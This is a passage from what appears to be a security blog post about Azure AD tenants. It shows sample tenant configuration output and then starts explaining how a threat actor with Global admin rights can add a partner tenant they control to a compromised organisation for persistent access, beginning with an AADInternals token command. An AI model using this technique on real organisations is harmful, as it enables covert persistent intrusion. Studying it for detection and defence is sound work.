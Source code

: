 ```
DapEnabled                               : 
DefaultUsageLocation                     : 
DirSyncAnchorAttribute                   : mS-DS-ConsistencyGuid
DirSyncApplicationType                   : 1651564e-7ce4-4d99-88be-0a65050d8dc3
DirSyncClientMachineName                 : SERVER
DirSyncClientVersion                     : 1.4.38.0
DirSyncServiceAccount                    : Sync_SERVER1_xxxxxxxxxxx@company.onmicrosoft.com
DirectorySynchronizationEnabled          : true
DirectorySynchronizationStatus           : Enabled
DisplayName                              : Company Ltd
InitialDomain                            : company.onmicrosoft.com
LastDirSyncTime                          : 2020-08-03T15:29:34Z
LastPasswordSyncTime                     : 2020-08-03T15:09:07Z
MarketingNotificationEmails              : 
MultipleDataLocationsForServicesEnabled  : 
ObjectId                                 : 527e940d-2526-483b-82a9-d5b6bf6cc165
PasswordSynchronizationEnabled           : true
PortalSettings                           : PortalSettings
PostalCode                               : 
PreferredLanguage                        : en
ReleaseTrack                             : FirstRelease
ReplicationScope                         : NA
RmsViralSignUpEnabled                    : true
SecurityComplianceNotificationEmails     : 
SecurityComplianceNotificationPhones     : 
SelfServePasswordResetEnabled            : true
ServiceInformation                       : ServiceInformation
ServiceInstanceInformation               : ServiceInstanceInformation
State                                    : 
Street                                   : 
SubscriptionProvisioningLimited          : false
TechnicalNotificationEmails              : TechnicalNotificationEmails
TelephoneNumber                          : 1324567890
UIExtensibilityUris                      : 
UsersPermissionToCreateGroupsEnabled     : true
UsersPermissionToCreateLOBAppsEnabled    : true
UsersPermissionToReadOtherUsersEnabled   : true
UsersPermissionToUserConsentToAppEnabled : true
WhenCreated                              : 2019-07-14T07:03:20Z
```

## Adding a new partner to compromised organisation

One way to achieve persistent access to already compromised organisation is to add a partner tenant that is controlled by the threat actor.

With Global admin level access to compromised organisation, AADInternals can be used to easily add new partners. You just need to know any domain name or tenant id of the partner.

{{< highlight powershell >}}
# Get access token and save to cache
Get-AADIntAccessTokenForAdmin -SaveToCache
